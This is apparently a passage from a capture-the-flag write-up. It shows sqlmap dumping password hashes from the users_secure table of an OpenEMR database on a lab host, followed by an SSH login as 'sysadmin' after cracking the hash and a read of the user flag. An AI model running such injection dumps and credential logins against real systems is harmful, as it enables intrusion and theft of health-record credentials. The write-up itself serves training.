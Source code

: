 ~~~TERM
back-end DBMS: MySQL >= 5.6
[13:10:32] [INFO] fetching columns for table 'users_secure' in database 'openemr'
[13:10:32] [INFO] fetching entries for table 'users_secure' in database 'openemr'
Database: openemr
Table: users_secure
[2 entries]
+----+---------+--------------------------------------------------------------+----------+---------------------+---------------+---------------+--------------------------------+-------------------+
| id | salt    | password                                                     | username | last_update         | salt_history1 | salt_history2 | password_history1              | password_history2 |
+----+---------+--------------------------------------------------------------+----------+---------------------+---------------+---------------+--------------------------------+-------------------+
| 1  | <blank> | $2a$05$0ZgJ/ckahD2RWsg3iN7b2uyt0p4ytBBQuJqMUduF.hH5K7TRhLNnW | <blank>  | 2021-03-28 21:46:23 | <blank>       | <blank>       | $2a$05$0ZgJ/ckahD2RWsg3iN7b2v$ | admin             |
| 4  | <blank> | $2a$05$uR2GSLF46MDxo.vHKyapAOxNAVhDyzUm3AxXNcTCPH3WYdrNwjUT. | <blank>  | 2021-03-26 22:35:10 | <blank>       | <blank>       | $2a$05$uR2GSLF46MDxo.vHKyapAS$ | sysadmin          |
+----+---------+--------------------------------------------------------------+----------+---------------------+---------------+---------------+--------------------------------+-------------------+

[13:10:32] [INFO] table 'openemr.users_secure' dumped to CSV file '/home/user/.local/share/sqlmap/output/192.168.118.132/dump/openemr/users_secure.csv'
[13:10:32] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/192.168.118.132'

[*] ending @ 13:10:32 /2021-04-23/

~~~

> We can crack the hash and ssh to the server

~~~term
┌──(user㉿kali)-[~]
└─$ ssh sysadmin@192.168.118.132                                                                                                                                                                                                      255 ⨯
The authenticity of host '192.168.118.132 (192.168.118.132)' can't be established.
ECDSA key fingerprint is SHA256:ZRkVNFCQPSUG1pbyc7qQXrxEY0uaOJ9FnfmpJ9Egjz0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.118.132' (ECDSA) to the list of known hosts.
sysadmin@192.168.118.132's password: 
Linux 93e4ad68c07c 5.4.82-0-virt #1-Alpine SMP Thu, 10 Dec 2020 08:58:01 UTC x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
sysadmin@93e4ad68c07c:~$ ls
user.txt
sysadmin@93e4ad68c07c:~$ cat user.txt
245_SKILLS{R3al_W0rld_Wr1teup}
~~~
